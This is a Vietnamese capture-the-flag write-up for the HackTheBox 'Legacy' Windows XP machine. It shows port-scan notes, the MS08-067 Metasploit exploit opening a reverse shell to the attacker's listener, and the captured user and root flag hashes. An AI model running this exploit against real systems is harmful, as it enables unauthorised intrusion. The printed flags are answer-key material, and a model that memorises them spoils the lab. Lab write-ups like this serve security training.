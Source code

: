 ```yaml
---
title: "Legacy HTB"
excerpt: "December 02, 2024 04:00 PM ICT to December 02, 2024"


header:
show_date: true
header:
  teaser: "../assets/images/images-icon/legacy.jpg"
  teaser_home_page: true
  icon: "https://hackmd.io/_uploads/lame.jpg"
categories:
  - CTF
tags:
  - CTF
  - Vietnamese
---
```


# Legacy

![image](https://hackmd.io/_uploads/SJa82-3XJl.png)


![image](https://hackmd.io/_uploads/Sy0x6Zn7yg.png)

Machine về window easy:

![image](https://hackmd.io/_uploads/r1EB0-hQkx.png)

![image](https://hackmd.io/_uploads/B1UICW3Xye.png)

```
135/tcp

Trạng thái: Open
Dịch vụ: Microsoft Windows RPC
RPC (Remote Procedure Call) là một giao thức thường được sử dụng để thực thi chương trình trên máy tính từ xa. Có thể kiểm tra thêm để tìm lỗ hổng liên quan đến DCOM hoặc MSRPC.
139/tcp

Trạng thái: Open
Dịch vụ: NetBIOS Session Service (netbios-ssn)
Đây là một phần của giao thức NetBIOS, thường được sử dụng để chia sẻ tệp/tài nguyên. Có thể kiểm tra các chia sẻ không bảo mật hoặc lỗi SMB (Server Message Block).
445/tcp

Trạng thái: Open
Dịch vụ: Microsoft-ds (SMB)
SMB là giao thức phổ biến cho chia sẻ tệp và máy in trên mạng. Lưu ý:
SMB1 (phiên bản cũ) đang được sử dụng, thường dễ bị tấn công như EternalBlue hoặc các lỗ hổng tương tự.
Message Signing: Bị tắt (rủi ro bảo mật, dễ bị tấn công MITM).
```

https://www.getastra.com/blog/security-audit/how-to-hack-windows-xp-using-metasploit-kali-linux-ms08067/

ta thấy rpc được mở có khả năng bị khai thác với `CVE-2008-4250`:


![image](https://hackmd.io/_uploads/HJkrEznQyl.png)

```
msf6 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 10.10.14.45:4444
[*] 10.129.243.103:445 - Automatically detecting the target...
[*] 10.129.243.103:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.129.243.103:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.129.243.103:445 - Attempting to trigger the vulnerability...
[*] Command shell session 5 opened (10.10.14.45:4444 -> 10.129.243.103:1036) at 2024-12-03 12:13:56 +0700


Shell Banner:
Microsoft Windows XP [Version 5.1.2600]
-----


C:\WINDOWS\system32>cd "C:\Documents and Settings\john\Desktop"
cd "C:\Documents and Settings\john\Desktop"

C:\Documents and Settings\john\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 54BF-723B

 Directory of C:\Documents and Settings\john\Desktop

16/03/2017  08:19 ��    <DIR>          .
16/03/2017  08:19 ��    <DIR>          ..
16/03/2017  08:19 ��                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)   6.296.608.768 bytes free

C:\Documents and Settings\john\Desktop>type user.txt
type user.txt
e69af0e4f443de7e36876fda4ec7644f
C:\Documents and Settings\john\Desktop>cd "C:\Documents and Settings\Administrator\Desktop"
cd "C:\Documents and Settings\Administrator\Desktop"

C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
993442d258b0e0ec917cae9e695d5713
C:\Documents and Settings\Administrator\Desktop>

```


## cheat

`cd "C:\Documents and Settings\Administrator\Desktop"`

`cd "C:\Documents and Settings\john\Desktop"`

`type file.txt` -> read file
